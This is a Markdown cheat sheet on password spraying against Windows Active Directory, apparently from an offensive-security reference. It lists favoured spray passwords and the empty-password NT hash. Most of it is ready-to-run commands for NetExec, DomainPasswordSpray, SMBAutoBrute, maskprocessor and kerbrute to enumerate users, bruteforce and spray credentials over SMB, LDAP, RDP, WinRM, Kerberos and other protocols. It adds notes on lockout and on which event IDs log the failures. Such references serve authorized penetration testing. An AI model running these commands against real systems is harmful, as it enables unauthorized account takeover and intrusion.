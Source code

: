 # Password - Spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password.

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.

Most of the time the best passwords to spray are :

- Passwords: `P@ssw0rd01`, `Password123`, `Password1`,
- Common password: `Welcome1`/`Welcome01`, `Hello123`, `mimikatz`
- $Companyname1:`$Microsoft1`
- SeasonYear: `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (`*`,`?`,`!`,`#`)
- Empty Password: NT hash is `31d6cfe0d16ae931b73c59d7e0c089c0`

:warning: be careful with the account lockout !

## Spray a pre-generated passwords list

- Using [Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

  ```powershell
  nxc smb 10.0.0.1 -u /path/to/users.txt -p Password123
  nxc smb 10.0.0.1 -u Administrator -p /path/to/passwords.txt
  
  nxc smb targets.txt -u Administrator -p Password123 -d domain.local
  nxc ldap targets.txt -u Administrator -p Password123 -d domain.local
  nxc rdp targets.txt -u Administrator -p Password123 -d domain.local
  nxc winrm targets.txt -u Administrator -p Password123 -d domain.local
  nxc mssql targets.txt -u Administrator -p Password123 -d domain.local
  nxc wmi targets.txt -u Administrator -p Password123 -d domain.local

  nxc ssh targets.txt -u Administrator -p Password123
  nxc vnc targets.txt -u Administrator -p Password123
  nxc ftp targets.txt -u Administrator -p Password123
  nxc nfs targets.txt -u Administrator -p Password123
  ```

- Using [hashcat/maskprocessor](https://github.com/hashcat/maskprocessor) to generate passwords following a specific rule

  ```powershell
  nxc smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```

- Using [dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) to spray a password against all users of a domain.

  ```powershell
  Invoke-DomainPasswordSpray -Password Summer2021!
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```

- Using [shellntel-acct/scripts/SMBAutoBrute](https://github.com/shellntel-acct/scripts/blob/master/Invoke-SMBAutoBrute.ps1).

  ```powershell
  Invoke-SMBAutoBrute -PasswordList "jennifer, yankees" -LockoutThreshold 3
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```

## BadPwdCount attribute

> The number of times the user tried to log on to the account using an incorrect password. A value of `0` indicates that the value is unknown.

```powershell
$ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

## Kerberos pre-auth bruteforcing

Using [ropnop/kerbrute](https://github.com/ropnop/kerbrute), a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

- Username bruteforce

  ```powershell
  ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```

- Password bruteforce

  ```powershell
  ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```

- Password spray

  ```powershell
  ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```
